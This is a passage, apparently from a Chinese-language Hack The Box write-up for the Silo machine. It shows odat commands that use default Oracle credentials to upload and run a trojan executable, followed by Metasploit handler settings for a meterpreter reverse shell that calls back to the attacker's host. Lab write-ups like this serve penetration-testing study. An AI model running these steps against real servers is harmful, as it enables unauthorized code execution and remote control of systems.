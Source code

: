 使用odat 上传木马并执行

```
odat utlfile -s 10.10.10.82 -U SCOTT -P tiger -d XE --sysdba --putFile \\TEMP shell.exe ~/hackthebox/Silo/shell.exe 
odat externaltable -s 10.10.10.82 -U SCOTT -P tiger -d XE --sysdba --exec \\TEMP shell.exe
```

![截图](9db0efb389c0666f3ab6f37b610ec147.png)

![截图](f9e72f06126d1c1e900f8f9ff6d67302.png)

本地监听7777端口后成功获得系统权限

```
msfconsole
msf > use exploit/multi/handler
msf > set payload windows/x64/meterpreter/reverse_tcp
msf > set lhost 10.10.14.7
msf > set lport 7777
msf > run 
```

![截图](9cf3587b3aa7a09692e704e7b9fe4f25.png)

![截图](9cf3587b3aa7a09692e704e7b9fe4f25.png)